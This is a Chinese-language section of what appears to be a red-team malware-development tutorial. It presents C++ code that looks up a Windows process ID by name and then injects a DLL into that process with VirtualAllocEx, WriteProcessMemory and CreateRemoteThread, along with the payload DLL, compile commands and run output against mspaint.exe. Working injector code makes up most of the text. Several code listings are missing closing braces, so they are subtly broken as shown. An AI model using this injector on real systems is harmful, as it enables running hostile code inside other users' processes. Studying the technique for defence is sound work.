\newpage
\subsection{按名称查找进程 ID 并向其注入：简单的 C++ 示例}

在我编写自己的注入器时，我就在想：比如，怎样才能按名称找到进程？

{width="80%"}

在编写代码或 DLL 注入器的时候，如果能找出系统里正在运行的所有进程，并尝试注入到由管理员启动的那个进程里，那就太好了。

在本节中，我先来解决一个最简单的问题：按名称查找进程 ID。

幸运的是，Win32 API 里有几个很好用的函数。

我们来看代码：

我们来分析一下这段代码。

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

int main(int argc, char* argv[]) {
  int pid = 0; // process ID

  pid = findMyProc(argv[1]);
  if (pid) {
  printf("PID = %d\n", pid);
  }
  return 0;

```

首先，我们从实参中解析出进程名。然后按名称查找进程 ID 并打印出来：

{width="80%"}

为了找到 PID，我们调用 `findMyProc` 函数。它做的事情基本上就是：接收我们想要注入的目标进程的名称，然后尝试在操作系统的内存中找到它；如果该进程存在、也就是正在运行，这个函数就返回那个进程的进程 ID：

{width="80%"}

我在代码里加了注释，所以我想你不应该有太多疑问。

{width="80%"}

首先，我们用 `CreateToolhelp32Snapshot` 获取系统中当前正在执行的进程的快照：

{width="80%"}

然后我们用 `Process32First` 和 `Process32Next` 遍历快照中记录的列表：如果找到名称与我们传入的 `procname` 相匹配的进程，就返回它的 ID。

正如我前面写的，为了简单起见，我们只是把这个 PID 打印出来。

我们来编译这段代码：

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe \
-lws2_32 -s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

现在在 Windows 机器上启动它（我这里是 Windows 7 x64）：

```cmd
.\hack.exe mspaint.exe
```

{width="80%"}

如你所见，一切运行完美。

现在，如果我们站在红队的角度思考，就可以写出一个更有意思的注入器：比如按名称找到进程，然后把我们的载荷注入进去。

同样为了简单起见，我拿自己之前某篇文章里的注入器，只把 `findMyProc` 函数加进去：

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  } else {
  printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;

```

编译我们的 `hack2.cpp`：

```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

{width="80%"}

“Evil” DLL 还是同一个：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

编译并把它放到我们选定的目录里：

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

运行：

```cmd
.\hack2.exe mspaint.exe
```

{width="80%"}

如你所见，一切正常：我们启动 `mspaint.exe`，我们的简单注入器找到了 PID（1），我们带简单弹窗（Meow）的 DLL 生效了！（2）

要验证我们的 DLL 确实被注入到了 `mspaint.exe` 进程中，我们可以使用 Process Hacker，在内存区域里可以看到：

{width="80%"}

看来我们这套简单的注入逻辑奏效了！

在这个例子里，我没有检查自己进程中的 `SeDebugPrivilege` 是否处于“已启用”状态。那么我怎样才能拿到这个特权呢？？？这一点连同所有的注意事项，我都得在以后好好研究。

### 参考资料

开始吧！
